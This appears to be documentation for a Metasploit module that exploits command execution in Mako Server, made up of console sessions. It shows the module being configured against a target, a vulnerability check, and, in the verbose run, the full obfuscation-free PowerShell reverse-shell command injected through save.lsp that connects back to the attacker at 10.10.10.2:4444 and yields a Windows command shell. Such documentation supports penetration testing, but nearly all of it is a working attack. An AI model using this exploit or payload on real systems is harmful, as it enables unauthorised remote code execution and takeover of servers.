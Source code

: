 ## Scenarios
```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49175) at 2017-10-26 21:23:59 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

## Example Verbose Output
```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set VERBOSE true
VERBOSE => true
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > check

[*] Trying to detect running Mako Server and necessary files...
[*] Mako Server save.lsp returns correct ouput.
[*] 10.10.10.3:80 The target appears to be vulnerable.
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Now executing the following command: os.execute([[powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.2';$p='4444';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};]])
[*] Sending PUT request to save.lsp...
[*] Sending GET request to manage.lsp...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49174) at 2017-10-26 21:21:08 -0400

Microsoft Windows
```